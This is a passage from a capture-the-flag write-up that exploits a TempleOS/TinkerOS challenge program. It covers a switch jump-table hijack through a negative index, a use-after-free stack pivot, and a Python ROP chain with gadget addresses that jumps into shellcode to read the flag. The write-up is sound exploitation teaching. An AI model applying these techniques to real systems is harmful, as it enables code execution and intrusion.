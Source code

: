 Supplying `-456873138` as index to `DoCommand()` will cause the `switch` to jump
to `0x3677bd46 + [0x3677bf0b + 2 * -456873138] == 0x3677bcf1`. Right into the
useful gadget we found.

The strategy is:

1. Run command `1` and supply a ROP chain when asked for the book title. It will
   be written into a `MAlloc`'d buffer whose address is saved on the stack.
2. Input `0` as the number of lines to return exit early from `DoCommand()` and
   preserve the address on the stack, even though the underlying buffer is
   released via `Free()`.
3. Input `-456873138` as command to hijack the `switch` and jump to our gadget,
   which will pop the old buffer address into RBP and pivot the stack there.

### ROP chain + shellcode

Now that we successfully control the stack pointer and instruction pointer we
can run a short ROP chain to locate the new stack (i.e. the `MAlloc`'d buffer
address) and jump into it to run some shellcode. Alternatively we could invoke
something like `ReadLine()` to read code into memory and jump into it. As
already seen in the introduction above, memory protections don't really exist in
TempleOS so everything is RWX. We have a lot of gadgets at low memory addresses
(kernel code) so it should be doable.

What I ended up doing was locating the new RSP and then jumping ahead into some
shellcode.

```python
payload = flat([
    # Scratch value for LEAVE (goes in RBP)
    0x41414141        ,
    # Pop any valid address in RAX to not crash in the next gadget
    0x000000000000b039, # pop rax ; ret
    stack             ,
    # Copy current RSP into RDI
    0x00000000000ea85f, # push rsp ; add dword ptr [rax], eax ; add byte ptr [rbx + 0x5e], bl ; pop rdi ; pop rbp ; ret
    0x41414141        ,
    # Calculate address of shellcode
    0x000000000000b039, # pop rax ; ret
    8 * 5             ,
    0x00000000000ca95d, # add edi, eax ; ret
    # Jump into shellcode placed right after this chain in the buffer
    0x00000000000cd540, # push rdi ; ret
])
```

All kernel-provided functions are available at low fixed addresses as they are pre-compiled into the kernel binary. We can look them up by name in the
[TinkerOS documentation](https://tinkeros.github.io/WbGit/Home/Web/SymsAddress.html#l1)
and print their address from any terminal using `"%x\n", &Func;`.

Reading the flag is now only a question of using `FileRead()` (or similar
functions, like `DocNew()` + `DocRead()` like the challenge itself does) plus a
simple loop to write to serial. Other alternatives are possible, such as
guessing or scanning for the location of the `Banner()` function and using it to
read the file for us either by editing the string embedded in the code holding
the file name or jumping in the middle of the function with the right stack set
up.


[ctftime-m0lecon-2025]: https://ctftime.org/event/2725
[tinkeros]: https://github.com/tinkeros/TinkerOS